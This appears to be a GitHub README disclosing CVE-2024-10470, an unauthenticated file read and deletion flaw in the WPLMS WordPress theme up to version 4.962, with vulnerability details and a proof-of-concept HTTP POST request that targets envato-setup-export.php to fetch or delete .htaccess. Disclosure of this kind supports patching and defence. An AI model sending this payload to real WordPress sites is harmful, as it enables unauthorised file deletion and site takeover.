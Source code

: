# CVE-2024-10470
WPLMS Learning Management System for WordPress &lt;= 4.962 – Unauthenticated Arbitrary File Read and Deletion

# Description

The WPLMS Learning Management System for WordPress, WordPress LMS theme for WordPress is vulnerable to arbitrary file read and deletion due to insufficient file path validation and permissions checks in the readfile and unlink functions in all versions up to, and including, 4.962. This makes it possible for unauthenticated attackers to delete arbitrary files on the server, which can easily lead to remote code execution when the right file is deleted (such as wp-config.php). The theme is vulnerable even when it is not activated.


```
Affected Theme: WPLMS Learning Management System for WordPress
Theme Slug: wplms
Affected Versions: <= 4.962
CVE ID: CVE-2024-10470
CVSS Score: 9.8 (Critical)
CVSS Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
Researcher/s: Foxyyy
Fully Patched Version: 4.963
```

POC
---

```
POST /wp-content/themes/wplms/setup/installer/envato-setup-export.php HTTP/1.1
Host: kubernetes.docker.internal
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

download_export_zip=1&zip_file=.htaccess
```
